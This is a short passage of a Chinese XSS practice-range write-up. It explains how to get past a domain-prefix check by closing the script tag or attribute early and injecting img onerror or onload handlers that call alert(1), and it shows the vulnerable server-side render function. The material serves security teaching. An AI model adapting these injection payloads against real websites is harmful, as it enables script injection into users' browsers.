 

## 0x09——利用`闭合`绕过输入网站才能用script标签的过滤

提前闭合或者换行

```
域名“></script><img scr=""onerror="alert(1)

http://www.segmentfault.com" 
onload="alert(1)

http://www.segmentfault.com"></script><img src="x" onerror="alert(1)
```

![image-20220116103956856](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116103956856.png)



```
[html]
<script src="http://www.segmentfault.com"></script><img src="x" onerror="alert(1)"></script>

[server code]
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```
